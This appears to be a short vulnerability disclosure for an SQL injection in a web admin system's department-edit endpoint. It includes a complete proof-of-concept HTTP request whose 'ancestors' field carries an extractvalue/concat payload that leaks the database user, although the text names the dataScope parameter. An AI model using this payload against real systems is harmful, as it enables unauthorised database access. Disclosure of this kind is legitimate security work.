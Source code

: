 SQL injection exists in the dataScope parameter of the /system/dept/edit  interface of the system.  
The cause of this vulnerability is the use of the $ placeholder symbol.  
<img width="415" alt="image" src="https://github.com/biantaibao/octopus_SQL2/assets/131763503/469d1993-ebe2-41d1-bcae-e4abaf098265">  
Find the front-end interface of the interface, enter the department management menu, and click the edit button.  
<img width="414" alt="image" src="https://github.com/biantaibao/octopus_SQL2/assets/131763503/c521b738-6d27-4c07-953b-b42decde3a31">  
poc:  

POST /system/dept/edit HTTP/1.1  
Host: 127.0.0.1:9999  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0  
Accept: application/json, text/javascript, */*; q=0.01  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded; charset=UTF-8  
X-Requested-With: XMLHttpRequest  
Content-Length: 111  
Origin: http://127.0.0.1:9999  
Connection: close  
Referer: http://127.0.0.1:9999/system/dept/edit/104  
Cookie: Hm_lvt_f8cddee34ca21f05373a9388cfdd798b=1704968094; Hm_lvt_bfe2407e37bbaa8dc195c5db42daf96a=1705885425; _jpuid="MTY3ZTZkMDhmMDQ5ODc1MDgzNGZkYmUyNDk4NzBhMTYjMTcwNTg4ODcwODg0OSMxNzI4MDAjTVE9PQ=="  
Sec-Fetch-Dest: empty  
Sec-Fetch-Mode: cors  
Sec-Fetch-Site: same-origin  

DeptName=1&DeptId=100&ParentId=12&Status=0&OrderNum=1&ancestors=0)or(extractvalue(1,concat((select user()))));#   

Successfully viewed user.
![image](https://github.com/biantaibao/octopus_SQL2/assets/131763503/c06dafc5-c826-438c-9230-a2a188a677a1)  
![image](https://github.com/biantaibao/octopus_SQL2/assets/131763503/4fb2aee8-4f74-4f66-bc4d-c62024a647ef)




